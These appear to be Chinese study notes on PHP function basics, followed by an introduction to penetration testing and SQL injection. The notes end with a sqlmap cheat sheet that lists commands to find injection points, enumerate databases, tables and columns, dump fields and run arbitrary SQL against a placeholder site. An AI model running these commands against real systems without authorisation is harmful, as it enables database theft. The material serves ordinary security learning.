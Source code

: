 在声明函数时可以没有参数列表和返回值：

函数只被声明一次就可以在任何需要的地方调用，只要函数内部代码有所改动，所有调用该函数的地方都会随着改动。将输出表格实例声明为一个函数。

在上面的示例中声明一个函数名为table的函数，将使用双层for循环输出的表格代码作为函数体声明在函数中。声明的table函数没有参数列表也没有返回值，是最简单的自定义函数。

### 函数调用

函数调用:

不管是自定义的函数还是系统函数，如果函数不被调用就不会执行。只要在需要使用函数的位置，使用函数名称和参数列表进行调用。函数被调用后开始执行函数体中的代码，执行完毕返回调用的位置继续向下执行。函数名称在程序中有以下三个作用：

1、通过函数名称调用函数，在调用的位置执行函数体中代码；

2、用来传递参数。如果函数有参数列表，还可以通过函数名后面的小括号传入对应的值，改变函数内部代码的执行行为；

3、代表返回值。如果函数有返回值，当函数执行完毕会将return后面的值返回到调用函数的位置。这样就可以把函数名称当做函数返回的值使用。

只要函数的声明在脚本中可见，就可以通过函数名在脚本的任意位置调用，在PHP中可以在函数的声明之后调用，也可以在函数的声明之前调用，还可以在函数中调用函数。

### 参数传入

参数列表是由零个、一个或多个参数组成。每个参数是一个表达式，用逗号分隔。

参数传入:

参数列表是由零个、一个或多个参数组成。每个参数是一个表达式，用逗号分隔。对于有参函数，在PHP脚本程序中和被调函数之间有数据传递关系。定义函数时函数名后面括号内的表达式称为形式参数（简称“形参”），被调函数名后面括号中的表达式称为实际参数（简称“实参”）。实参和形参应该个数相等、类型一致。实参和形参按顺序对应传递数据。

如果函数没有参数列表，那么函数执行的任务是固定的，用户在调用时就不能改变函数内部的一些执行行为。

函数的参数列表作用是给用户调用函数时提供操作接口。如果函数使用参数列表，函数参数的具体数据值从函数外部获得，那么用户就可以将一些数据通过函数的参数列表传递到函数内部。这样在执行函数体时，就可以根据用户传递过来的数据决定函数体内部如何执行。

return语句可以向函数调用者返回函数体中任意确定的值。将程序控制权返回到调用者的作用域，即退出函数。

### wamp
WAMP即 Apache+Mysql+PHP

# 渗透测试工程师与黑客的区别？

渗透测试是提供目标网络中所存在的所有漏洞的清单。渗透测试的目标是向公司展示，攻击者可以利用这些漏洞来进行攻击的方式。渗透测试是模拟黑客攻击测试，但两者也有区别，渗透测试是“面”的测试，黑客攻击是“深度”测试。前者涉及内容更加广泛，后者讲究的是破坏性。

## SQL注入漏洞

SQL 是用于访问和处理数据库的标准的计算机语言。
所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。

- sqlmap是一个开源的渗透测试工具，可以用来进行自动化检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎,针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。

### sqlmap注入常见用法：

检查注入点	sqlmap -u "http://ooxx.com/a.php?id=1"
列数据库信息	sqlmap -u "http://ooxx.com/a.php?id=1" --dbs
指定数据库名列出所有表	sqlmap -u "http://ooxx.com/a.php?id=1" -D dbsname --tables
指定数据库名表名列出所有字段	sqlmap -u "http://ooxx.com/a.php?id=1" -D dbsname -T tablename --columns
定数据库名表名字段dump出指定字段	sqlmap -u "http://ooxx.com/a.php?id=1" -D dbsname -T tablename -C columnname --dump
cookie 注入	--cookie=COOKIE 在需要登录的地方，需要登录后的cookie
执行指定的 SQL 语句	--sql-query=QUERY
代理注入	--proxy="http://127.0.0.1:8087"
